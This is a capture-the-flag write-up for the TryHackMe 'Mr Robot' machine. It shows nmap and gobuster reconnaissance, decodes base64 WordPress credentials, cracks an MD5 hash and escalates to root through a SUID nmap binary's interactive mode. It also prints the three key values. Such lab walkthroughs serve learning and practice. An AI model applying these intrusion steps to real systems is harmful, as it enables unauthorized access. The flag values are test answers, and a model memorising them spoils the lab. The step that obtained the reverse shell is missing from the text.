







# Mr Robot CTF
---

|Machine|Platform|Difficulty
|-|-|-
|Mr Robot CTF|TryHackMe|Medium

**Challenge Description:** Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

# Approach

Initial Nmap scan for all open TCP ports:

```bash
haxor@debian:~$ sudo nmap -sS -Pn -n --min-rate 5000 --max-retries -p- --open 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:33 CDT
Warning: 10.10.70.206 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Nmap scan for all discovered open TCP ports enumerating their service's version and using basic Nmap reconnaissance scripts:

```bash
haxor@debian:~$ sudo nmap -sSCV -Pn -n -p80,443 10.10.70.206
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-13 01:36 CDT
Nmap scan report for 10.10.70.206
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.78 seconds
```

The website exposed on port 80 looks like this, which appears to be an interactive terminal to navigate trough different functionalities:


Wappalizer detected the website is a WordPress blog, interesting places like the **wp-admin** or **robots.txt** sections might be useful to enumerate, after playing around with the site and reviewing its source code, I tried access the **robots.txt** file and discovered the following:



The first key is `073403c8a58a1f80d943455fb30724b9`. If we investigate the other resource listed on **robots.txt**, we will find what seems to be a wordlist:



Either the wordlist contains a valid directory or credentials we can use for the admin panel, so I downloaded it:

```bash
haxor@debian:~/machines/mrRobot$ wget http://10.10.109.37/fsocity.dic > wordlist.txt
--2024-10-13 11:20:26--  http://10.10.109.37/fsocity.dic
Connecting to 10.10.109.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic         100%[===================>]   6.91M   895KB/s    in 9.1s    

2024-10-13 11:20:36 (776 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
```

I will enumerate first for sub-directories with the downloaded wordlist:

```bash
haxor@debian:~/machines/mrRobot$ gobuster dir -u http://10.10.109.37 -w fsocity.dic 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.109.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                fsocity.dic
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/13 11:56:06 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.109.37/images/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.109.37/css/]
/image                (Status: 301) [Size: 0] [--> http://10.10.109.37/image/]
/license              (Status: 200) [Size: 309]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.109.37/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.109.37/video/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.109.37/audio/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.109.37/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.109.37/blog/]
/intro                (Status: 200) [Size: 516314]
```

If we go and try to explote **license** directory, we will find the following line from the **Mr Robot** show:



Analyzing the website's source code we see the following:



There is a base64 encoded string that is not being shown apparently due to an overflow present on the "pre" HTML tag (taking a closer look to the string inside the tag will result in a very big string).

```bash
haxor@debian:~/Downloads$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

It seems we got a **user:password** string, since the challenge's website is a Wordpress blog, we can check if the output are indeed valid credentials:


 
Entering the wrong password will result in Wordpress telling us that "elliot" is a valid user, so we can now try its password:



And we are in! After exploring the blog management panel and finding nothing but another user (which hasn't been very useful), Wordpress contain multiple PHP scripts for various scenarios such as, what if a page doesn't exist

Exploring the machine with the obtained reverse shell we see the following on the **/home/robot** directory:

```bash
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
```

If we try to read the key txt file, we won't be able to do that since its permissions are:

```bash
daemon@linux:/home/robot$ ls -l 
ls -l 
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

But notice we can read password.raw-md5:

```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Crackstation can actually decrypt the hash, if we try that, we get the following results:



Where the cracked hash turns out to be: `abcdefghijklmnopqrstuvwxyz`

However, we need to consider we won't be able to change our user using the cracked hash as reading the **/etc/passwd** and filtering for the **robot** user will throw the following:

```bash
daemon@linux:/home/robot$ cat /etc/passwd | grep robot
robot:x:1002:1002::/home/robot:
```

**robot** doesn't have an assigned shell, and we can't assign shells to users since it implies elevated privileges, so the final stept is to look for SUID or SGID to become root:

```bash
daemon@linux:/home/robot$ find / -perm /4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

All looks normal except for one binary: `/usr/local/bin/nmap` (usually there are a lot of SUID binaries present on a system, one advice is that you can ask ChatGPT to target suspect binaries or use your logic which I prefer the most).

Nmap is usually never found as SUID, and is a perfect SUID to become root as nmap has an --interactive mode to execute comands:

```bash 
nmap --interactive

nmap> ! whoami
root
```

since we are root, we can read all keys that are present on the system:

```bash 
nmap> ! cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959

nmap> ! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

With all of that done, the machine is compromised!